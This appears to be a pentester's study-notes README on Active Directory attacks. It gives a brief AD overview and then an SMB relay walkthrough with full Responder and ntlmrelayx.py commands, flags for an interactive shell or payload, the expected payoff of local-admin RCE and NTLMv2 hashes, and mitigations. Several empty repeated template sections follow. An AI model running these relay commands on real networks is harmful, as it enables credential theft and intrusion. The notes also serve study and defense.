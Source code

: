 # Active Directory attacks
## AD_overvire

>Active Directory (AD) is a Microsoft product that consists of several services that run on Windows Server to manage permissions and access to networked resources. Active Directory stores data as objects. An object is a single element, such as a user, group, application or device, such as a printer.

[logo]: img/active.png
![alt text](img/active.png "active direcorty")

* ayad.tshoot.com called `FQDN` fully qualified domain name

* hostname      vs      netbios name

```console
both of them is a way to identifi machines inside my network
have dots             dots not allowd
modern                old
tshoot.com            TSHOOT
```

* important files

```console

C:\windows\NTDS    → users and groups database 
                   → ntds.dit is the file contains users and groups
C:\windows\NTDS    → logs
C:\windows\SYSVOL  → groups policy

```

* local admin or doamin admin is only who can put out computer from domain
* password can't be changed before passing 24-hour and maximum duration is 42-day
* user can't use the same pass before using 24 different pass
* some users leave their passwords in the description

* name resolution methods
[logo]: img/name.png
![alt text](img/name.png "name resolution")

* remote managent methods
[logo]: img/remote.png
![alt text](img/remote.png "remote resolution")

## smbrelay attack
### attack vector
  smb signing enable but not require
  
  pssed `NTLMv2` must be at least local admin
### tools
respnder

ntlmrelayx.py from impacket lib
### reproduce
responder -I eth0 -rwdv `disable smb and http from /etc/respnder/Responder.conf`

python /usr/share/doc/python-impacket/examples/ntlmrelayx.py -tf target.txt -smb2support  -i

>-tf         target file

>-smb2support force ntlmrelay to use smbv2
 -i           get interactive shell
 -e           payload to run after exploit
 -c           command

[logo]: img/responder.png
![alt text](img/responder.png "hashes dumped")
### payoff
we get rce as local administartor
we get local user `NTLMv2` hashes
### metigation
Enable smb siging on all devices
Disable NTLM auth and move to kerberos
Account tiering
local admin restriction
---
## smbrelay attack
### idea
### tools
### reproduce
### metigation

---
## smbrelay attack
### idea
### tools
### reproduce
### metigation

---
## smbrelay attack
### idea
### tools
### reproduce
### metigation

---
## smbrelay attack
### idea
### tools
### reproduce
### metigation

---
## smbrelay attack
### idea
### tools
### reproduce
### metigation

---
## smbrelay attack
### idea
### tools
### reproduce
### metigation

---
## smbrelay attack
### idea
### tools
### reproduce
### metigation

---
## smbrelay attack
### idea
### tools
### reproduce
### metigation










